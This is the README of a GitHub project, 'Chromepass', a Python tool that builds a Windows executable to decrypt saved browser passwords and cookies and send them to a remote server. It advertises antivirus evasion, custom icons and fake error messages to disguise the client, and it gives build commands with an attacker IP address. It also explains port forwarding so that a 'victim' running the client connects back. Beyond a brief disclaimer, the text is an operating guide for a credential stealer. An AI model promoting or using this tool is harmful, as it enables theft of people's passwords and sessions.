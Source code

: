 <h1 align='center'>Chromepass - Hacking Chrome Saved Passwords and Cookies</h1>
<p align="center">	
    <img src="https://img.shields.io/badge/Platform-Windows-green" />
	<a href="https://github.com/darkarp/chromepass/releases/latest">
	<img src="https://img.shields.io/github/v/release/darkarp/chromepass" alt="Release" />
	</a>
  <a href="https://travis-ci.org/darkarp/chrome-password-hacking">
    <img src="https://img.shields.io/badge/build-passing-green" alt="Build Status on CircleCI" />
	</a>
    <img src="https://img.shields.io/maintenance/yes/2021" />
	</br>
  
  <a href="https://github.com/darkarp/chromepass/commits/master">
    <img src="https://img.shields.io/github/last-commit/darkarp/chromepass" />
  </a>
  <img alt="Scrutinizer code quality (GitHub/Bitbucket)" src="https://img.shields.io/scrutinizer/quality/g/darkarp/chromepass?style=flat">
  <a href="https://github.com/darkarp/chromepass/blob/master/LICENSE">
    <img src="http://img.shields.io/github/license/darkarp/chromepass" />
  </a>
  </br>
  <a href="https://github.com/darkarp/chromepass/issues?q=is%3Aopen+is%3Aissue">
	<img alt="GitHub issues" src="https://img.shields.io/github/issues/darkarp/chromepass">
</a
<a href="https://github.com/darkarp/chromepass/issues?q=is%3Aissue+is%3Aclosed">
	<img alt="GitHub closed issues" src="https://img.shields.io/github/issues-closed/darkarp/chromepass">
</a>
</br>
  <a href="https://discord.gg/beczNYP">
    <img src="https://img.shields.io/badge/discord-join-7289DA.svg?logo=discord&longCache=true&style=flat" />
  </a>
  </br>
    <a href="https://i.imgur.com/WtaFA6c.gif" target="_blank">View Demo</a>
    ·
    <a href="https://github.com/darkarp/chromepass/issues/new?assignees=&labels=&template=bug_report.md&title=">Report Bug</a>
    ·
    <a href="https://github.com/darkarp/chromepass/issues/new?assignees=&labels=&template=feature_request.md&title=">Request Feature</a>
  </p>  
  
  
<!-- TABLE OF CONTENTS -->
## Table of Contents

* [About the Project](#about-the-project)  
	* [AV Detection](#av-detection)
* [Getting started](#getting-started)
  * [Prerequisites](#dependencies-and-requirements)
  * [Installation](#installation)
* [Usage](#usage)
* [Errors, Bugs and Feature Requests](#errors-bugs-and-feature-requests)
* [Learn More](#learn-more)
* [License](#license)
---
## About The project
Chromepass is a python-based console application that generates a windows executable with the following features:

  - Decrypt Google Chrome, Chromium, Edge, Brave, Opera and Vivaldi saved paswords and cookies
  - Send a file with the login/password combinations and cookies remotely (http server)
  - Undetectable by AV if done correctly
  - Custom icon
  - Custom error message
  - Customize port

---

### AV Detection!  

The new client build methodology, practically ensures a 0% detection rate, even without AV-evasion tactics. If this becomes false in the future, some methods will be implemented to improve AV evasion.  

An example of latest scans (note: within 10-12 hours we go from 0-2 detections to 32 detections so run the analysis on your own builds): 
  * [VirusTotal Scan 1](https://www.virustotal.com/gui/file/156bc07e1bb214b237c51b640cbaf4727071a1e6b090088b4a339e53073dd613/detection)

 ---
## Getting started

### Dependencies and Requirements

This is a very simple application, which uses only:

* [Python] - Tested on python 3.9+

>It recommended to perform the installation inside a Windows VM. Some parts of the installation procedure might be affected by existing configurations. This was tested on a clean Windows 10 VM.

### Installation

Chromepass requires Windows to run! Support for linux and macOS may be added soon.

Clone the repository:
```powershell
git clone https://github.com/darkarp/chromepass
```

Install the dependencies:

The dependencies are checked and installed automatically, so you can just skip to [Usage](#usage). It's recommended that you use a clean VM, just to make sure there are no conflicts.

If you don't have the dependencies and your internet isn't fast, this will take a while. Go grab some coffee.   

---

## Usage

Chromepass is very straightforward. Start by running:
```powershell
python create.py -h
```
A list of options will appear and are self explanatory.

Running without any parameters will build the server and the client connecting to `127.0.0.1`. 

A simple example of a build:
```powershell
python create.py --ip 92.34.11.220 --error --message An Error has happened
```

After creating the server and the client, make sure you're running the server when the client is ran.

The cookies and passwords will be saved in `json` files on a new folder called `data` in the same directory as the server, separated by ip address.



### Remote Notes
>If you'd like to use this in a remote scenario, you must also perform port forwarding (port 80 by default), so that when the victim runs the client it is able to connect to the server on the correct port.  
For more general information, click [here](https://www.noip.com/support/knowledgebase/general-port-forwarding-guide/). If you're still not satisfied, perform a google search.

---

## Manual dependency installation

The automated setup is experimental. For one reason or another, the setup might fail to correctly install the dependencies. If that's the case, you must install them manually.  
Fortunately, there are only 2 dependencies:  
  - [Microsoft Visual C++ Build Tools](https://visualstudio.microsoft.com/thank-you-downloading-visual-studio/?sku=BuildTools&rel=16) (install with the recommended workflows)
  - [Rustup](https://rustup.rs/)

Instead of the build tools you can also just install visual studio but it will take more space.

After successfully installing the build tools, you can simply run the `rustup-init.exe` from [Rustup](https://rustup.rs/)'s website.

This completes the required dependencies and you should be good to go.

---

## Errors, Bugs and feature requests

If you find an error or a bug, please report it as an issue.
If you wish to suggest a feature or an improvement please report it in the issue pages.

Please follow the templates shown when creating the issue.  

---


## Learn More

For access to a community full of aspiring computer security experts, ranging from the complete beginner to the seasoned veteran,
join our Discord Server: [WhiteHat Hacking](https://discord.gg/beczNYP)

If you wish to contact me, you can do so via: `mario@whitehathacking.tech` 

---

## Disclaimer
I am not responsible for what you do with the information and code provided. This is intended for professional or educational purposes only.

## License
<a href="https://github.com/darkarp/chromepass/blob/master/LICENSE"> AGPL-3.0 </a>

---
[![Code Intelligence Status](https://scrutinizer-ci.com/g/darkarp/chromepass/badges/code-intelligence.svg?b=master)](https://scrutinizer-ci.com/code-intelligence)  

[Python]: <https://www.python.org/downloads/>
